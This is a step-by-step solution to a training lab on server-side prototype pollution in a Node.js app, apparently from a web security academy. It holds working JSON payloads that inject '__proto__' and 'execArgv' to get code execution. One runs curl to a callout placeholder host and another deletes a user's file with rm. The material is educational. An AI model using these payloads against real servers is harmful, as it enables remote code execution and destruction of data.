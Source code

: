 Lab: Remote code execution via server-side prototype pollution


Study the address change feature

    Log in and visit your account page. Submit the form for updating your billing and delivery address.

    In Burp, go to the Proxy > HTTP history tab and find the POST /my-account/change-address request.

    Observe that when you submit the form, the data from the fields is sent to the server as JSON. Notice that the server responds with a JSON object that appears to represent your user. This has been updated to reflect your new address information.

    Send the request to Burp Repeater.

Identify a prototype pollution source

    In Repeater, add a new property to the JSON with the name __proto__, containing an object with a json spaces property.
    "__proto__": {
        "json spaces":10
    }

    Send the request.

    In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

Probe for remote code execution

    In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.

    Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.

    Try polluting the prototype with a malicious execArgv property that adds the --eval argument to the spawned child process. Use this to call the execSync() sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
        ]
    }

    Send the request.

    In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.

    In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several DNS interactions, confirming the remote code execution.

Craft an exploit

    In Repeater, replace the curl command with a command for deleting Carlos's file:
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
        ]
    }

    Send the request.

    Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted and the lab is solved.

